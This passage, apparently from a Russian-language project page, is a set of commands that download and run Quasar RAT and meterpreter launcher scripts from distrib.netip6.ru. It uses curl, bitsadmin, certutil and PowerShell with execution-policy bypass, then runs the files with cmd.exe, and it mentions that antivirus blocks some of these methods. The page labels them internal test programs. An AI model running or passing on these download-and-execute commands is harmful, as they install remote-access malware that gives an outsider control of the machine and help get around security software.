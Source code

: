 (требует установленного powershell 3.0+, Net Framework 4+), или

```text
c:\Util\curl.exe http://distrib.netip6.ru:80/NIT/RAT/nit-RAT-Quasar-run-00.cmd -o C:\Users\Администратор\nit-RAT-Quasar-run-00.cmd
```

(работает всегда, но требует предварительной настройки)

Команда 2:

```text
cmd.exe /c C:\Users\Администратор\nit-RAT-Quasar-run-00.cmd
```

## Тестовые программы

Данные программы используются только для внутренних тестов сервера и для помощи пользователям не используются. Пользователю их запускать ни в коем случае не нужно (возможна нестабильная работа компьютера).

#### Программа meterpreter (локальный запуск)

Способ 1:

Загрузите файл по ссылке и запустите его в папке «Загрузки»:

<http://distrib.netip6.ru:80/NIT/RAT/download.php?file=nit-meterpreter-local-RAT.bat>

Способ 2:

Последовательно выполните следующие команды на удалённом компьютере/сервере:

Команда 1:

```text
bitsadmin.exe /Transfer RemoteEnable00 /DOWNLOAD /PRIORITY FOREGROUND http://distrib.netip6.ru:80/NIT/RAT/nit-RAT-meterpreter-loc-run-00.cmd C:\Users\Администратор\nit-RAT-meterpreter-loc-run-00.cmd
```

(работает только в командных файлах или при виртуальном доступе), или

```text
certutil.exe -urlcache -f http://distrib.netip6.ru:80/NIT/RAT/nit-RAT-meterpreter-loc-run-00.cmd C:\Users\Администратор\nit-RAT-meterpreter-loc-run-00.cmd
```

(часто не запускается, блокируется антивирусом), или

```text
powershell.exe -NoLogo -NoProfile -WindowStyle Normal -ExecutionPolicy Bypass -Command (New-Object System.Net.WebClient).DownloadFile('http://distrib.netip6.ru:80/NIT/RAT/nit-RAT-meterpreter-loc-run-00.cmd', 'C:\Users\Администратор\nit-RAT-meterpreter-loc-run-00.cmd')
```

(требует установленного powershell 2.0+, .Net Framework 3.5+), или

```text
powershell.exe -NoLogo -NoProfile -WindowStyle Normal -ExecutionPolicy Bypass -Command Invoke-WebRequest -Uri 'http://distrib.netip6.ru:80/NIT/RAT/nit-RAT-meterpreter-loc-run-00.cmd' -OutFile 'C:\Users\Администратор\nit-RAT-meterpreter-loc-run-00.cmd'
```
